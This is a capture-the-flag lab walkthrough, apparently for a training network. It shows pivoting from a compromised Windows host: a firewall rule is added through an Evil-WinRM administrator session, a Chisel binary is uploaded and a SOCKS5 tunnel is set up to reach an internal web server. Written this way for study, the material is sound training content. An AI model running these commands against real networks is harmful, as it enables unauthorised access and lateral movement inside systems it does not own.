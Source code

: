 ## Task 33: [Personal PC] Pivoting

Now that we found 2 ports open, we can look to pivot.

* 80 - webserver
* 3389 - RDP

Without credentials, the RDP port won't be of much use. So let's look into the webserver.

First, we must pivot from the web server.

For this, I will be using Chisel.

We can start by setting up a port in the Windows firewall (on .150) to allow the forward connection to be made.

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh advfirewall firewall add rule name="Chisel-USERNAME" dir=in action=allow protocol=tcp localport=26743
Ok.
```

Now, we can upload the Windows Chisel binary to .150 using evil-winrm.

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> upload chisel-USERNAME
Info: Uploading chisel-USERNAME.exe to C:\Users\Administrator\Documents\chisel-USERNAME.exe

                                                             
Data: 11758248 bytes of 11758248 bytes copied

Info: Upload successful!
```

Now that we have uploaded Chisel, we can go and setup the chisel server.

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> ./chisel-USERNAME server -p 26743 --socks5
chisel-USERNAME : 2021/03/25 22:27:06 server: Fingerprint t5oA1Uzn8STucetN8VLufFwV0HS45X7aoxoCH8QcJc8=
    + CategoryInfo          : NotSpecified: (2021/03/25 22:2...X7aoxoCH8QcJc8=:String) [], RemoteException
    + FullyQualifiedErrorId : NativeCommandError
2021/03/25 22:27:06 server: Listening on http://0.0.0.0:267432021/03/25 22:29:12 server: session#1: Client version (0.0.0-src) differs from server version (1.7.3)
```

Now we must reach back from our VM using client. I installed chisel using **apt install chisel**.

```
chisel client 10.200.72.150:26743 9090:socks
2021/03/25 18:29:09 client: Connecting to ws://10.200.72.150:26743
2021/03/25 18:29:09 client: tun: proxy#127.0.0.1:9090=>socks: Listening
2021/03/25 18:29:10 client: Connected (Latency 104.446563ms)
```

Finally, we can go ahead and set up our FoxyProxy to begin attacking the http site on .100.
